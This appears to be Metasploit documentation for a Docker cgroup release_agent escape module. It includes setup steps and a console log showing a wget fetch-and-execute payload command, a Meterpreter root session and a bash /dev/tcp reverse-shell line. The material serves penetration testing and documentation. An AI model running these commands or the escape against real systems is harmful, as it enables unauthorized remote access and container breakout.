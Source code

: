 ## Vulnerable Application

Instructions to get the vulnerable application. If applicable, include links to the vulnerable install
files, as well as instructions on installing/configuring the environment if it is different than a
standard install. Much of this will come from the PR, and can be copy/pasted.

### Docker Setup

`sudo docker run --rm -it --privileged ubuntu:20.04 bash`

You may want to install `wget` to make initial exploitation easier as well:

```
apt-get update
apt-get install -y wget
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use [module path]`
1. Do: `run`
1. You should get a shell on teh host OS.

## Options

## Scenarios

### Ubuntu 18.04 LTS with 4.15.0-96-generic kernel and Docker Ubuntu 20.04

Initial Access

```
resource (docker.rb)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (docker.rb)> set lhost 192.168.2.128
lhost => 192.168.2.128
resource (docker.rb)> set srvport 8181
srvport => 8181
resource (docker.rb)> set target 7
target => 7
resource (docker.rb)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (docker.rb)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.2.128:4444 
[*] Using URL: http://192.168.2.128:8181/QZWpVr8t
[*] Server started.
[*] Run the following command on the target machine:
wget -qO dLFtachL --no-check-certificate http://192.168.2.128:8181/QZWpVr8t; chmod +x dLFtachL; ./dLFtachL& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] 192.168.2.142    web_delivery - Delivering Payload (250 bytes)
[*] Sending stage (3045380 bytes) to 192.168.2.142
[*] Meterpreter session 1 opened (192.168.2.128:4444 -> 192.168.2.142:60288) at 2023-11-28 13:38:39 -0500

[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

(Meterpreter 1)(/) > getuid
Server username: root
(Meterpreter 1)(/) > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 20.04 (Linux 4.15.0-96-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

Exploit the Docker Escape

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/local/docker_cgroup_escape
[*] Using configured payload cmd/unix/reverse_bash
[msf](Jobs:1 Agents:1) exploit(linux/local/docker_cgroup_escape) > set lhost 192.168.2.128
lhost => 192.168.2.128
[msf](Jobs:1 Agents:1) exploit(linux/local/docker_cgroup_escape) > set lport 9988
lport => 9988
[msf](Jobs:1 Agents:1) exploit(linux/local/docker_cgroup_escape) > set verbose true
verbose => true
[msf](Jobs:1 Agents:1) exploit(linux/local/docker_cgroup_escape) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/local/docker_cgroup_escape) > run

[+] bash -c '0<&119-;exec 119<>/dev/tcp/192.168.2.128/9988;sh <&119 >&119 2>&119'
[*] Started reverse TCP handler on 192.168.2.128:9988 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Unable to determine host OS, this check method is unlikely to be accurate
[+] The target is vulnerable. IF host OS is Ubuntu, kernel version 4.15.0-96-generic is vulnerable
[*] Creating folder for mount: /tmp/2YwVP2oT
[*] Creating directory /tmp/2YwVP2oT
[*] /tmp/2YwVP2oT created
[*] Mounting cgroup
[*] Creating folder in cgroup for exploitation: /tmp/2YwVP2oT/Fm9TGx9u
[*] Creating directory /tmp/2YwVP2oT/Fm9TGx9u
[*] /tmp/2YwVP2oT/Fm9TGx9u created
[*] Enabling notify on release for group Fm9TGx9u
[*] Determining the host OS path for image
[*] Host OS path for image: /var/lib/docker/overlay2/36581ed54878bb921fc79b1bbabef2839159544353837e0bbf8b98e49bb16e3d/diff
[*] Setting release_agent path to: /var/lib/docker/overlay2/36581ed54878bb921fc79b1bbabef2839159544353837e0bbf8b98e49bb16e3d/diff/tmp/TAPu7Lsjq
[*] Uploading payload to /tmp/TAPu7Lsjq
[*] Writing '/tmp/TAPu7Lsjq' (72 bytes) ...
[*] Triggering payload
sh -c "echo $$ > /tmp/2YwVP2oT/Fm9TGx9u/cgroup.procs"

[*] Cleanup: Unmounting /tmp/2YwVP2oT
[*] Exploit completed, but no session was created.
[msf](Jobs:1 Agents:1) exploit(linux/local/docker_cgroup_escape) > 
```
